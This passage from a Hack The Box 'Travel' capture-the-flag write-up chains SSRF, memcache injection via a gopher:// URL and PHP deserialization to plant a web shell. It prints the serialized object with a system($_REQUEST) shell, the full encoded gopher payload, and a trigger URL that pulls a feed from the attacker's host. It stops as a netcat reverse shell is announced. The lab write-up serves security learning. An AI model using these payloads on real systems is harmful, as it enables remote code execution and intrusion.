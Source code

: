 When running the script, we get the serialized output:

```
snowscan@kali:~/htb/travel$ php exploit.php
PHP Warning:  file_put_contents(/home/snowscan/htb/travel/logs/snow.php): failed to open stream: No such file or directory in /home/snowscan/htb/travel/exploit.php on line 23
O:14:"TemplateHelper":2:{s:4:"file";s:8:"snow.php";s:4:"data";s:32:"<?php system($_REQUEST["c"]); ?>";}
```

## Reverse shell

So we'll go back to Gopherus with the PHP payload and get the payload for the memcache injection.

![image-20200519215655193](/assets/images/htb-writeup-travel/image-20200519215655193.png)

After changing the key for the correct value and replacing 127.0.0.1 by 0 we get the following payload:

```
gopher://0:11211/_%0d%0aset%20xct_0375e1e45d8573844bcfb43ffe0ca90a%204%200%20103%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22snow.php%22%3Bs:4:%22data%22%3Bs:32:%22%3C%3Fphp%20system%28%24_REQUEST%5B%22c%22%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
```

We're ready to rock & roll now, first we populate the memcache with the payload:

![image-20200519220457976](/assets/images/htb-writeup-travel/image-20200519220457976.png)

Then we go to `http://blog.travel.htb/awesome-rss/?debug=1&custom_feed_url=http://10.10.14.33/customfeed.xml` to trigger the deserialization.

And finally we test and see that our command shell has successfully been written. We have RCE.

![image-20200519220622095](/assets/images/htb-writeup-travel/image-20200519220622095.png)

We'll get a reverse shell with netcat.
